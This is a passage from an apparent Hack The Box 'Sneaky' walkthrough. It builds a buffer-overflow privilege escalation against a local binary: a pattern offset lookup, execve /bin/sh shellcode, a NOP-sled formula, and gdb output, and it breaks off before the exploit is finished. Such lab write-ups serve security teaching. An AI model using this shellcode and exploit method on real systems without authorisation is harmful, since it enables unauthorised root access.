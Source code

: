 So we did r to run, and the unique string, which caused a seg fault and gdb returned the address of the string that was in the buffer at that point. Now back to Kali to find where in our unique string that was:

```text
root@kali:~/htb/sneaky# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x316d4130
[*] Exact match at offset 362
```

Now we know the buffer space is 362, and can start to build our exploit script:

```text
buffsize = 362
```

Let's grab the shellcode we want to execute when the buffer overflow is triggered. To get our privilege escalation we want to spawn a shell in the systems context. Head over to packetstorm to find one of their's [here.](https://packetstormsecurity.com/files/115010/Linux-x86-execve-bin-sh-Shellcode.html)

From there we find this shellcode : "\x31\xc0\x50\x68\x2f\x2f\x73", "\x68\x68\x2f\x62\x69\x6e\x89", "\xe3\x89\xc1\x89\xc2\xb0\x0b", "\xcd\x80\x31\xc0\x40\xcd\x80";

Put that in our script:

```text
buffsize = 362
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Next we need to define the NOP-sled, brloe is a good explanation of what that is taken from [here](https://www.coengoedegebure.com/buffer-overflow-attacks-explained).

**A NOP-sled is a sequence of NOP (no-operation) instructions meant to "slide" the CPU's instruction execution flow to the next memory address. Anywhere the return address lands in the NOP-sled, it's going to slide along the buffer until it hits the start of the shellcode. NOP-values may differ per CPU, but for the OS and CPU we're aiming at, the NOP-value is \x90.
**

The formula for the nopsled is "\x90"*(buffsize-len(shellcode)), let's put that in our script:

```text
buffsize = 362
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nopsled = "\x90"*(buffsize-len(shellcode))
```

Next we need to find the EIP, from the same article above, here is the description of the EIP:
The EIP (Extended Instruction Pointer) contains the address of the next instruction to be executed, which now points to the faulty address.

We want to know what that address is so we can line our payload up. To find it we run gdb again and cause the buffer overflow:

```text
thrasivoulos@Sneaky:~$ gdb /usr/local/bin/chal
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
```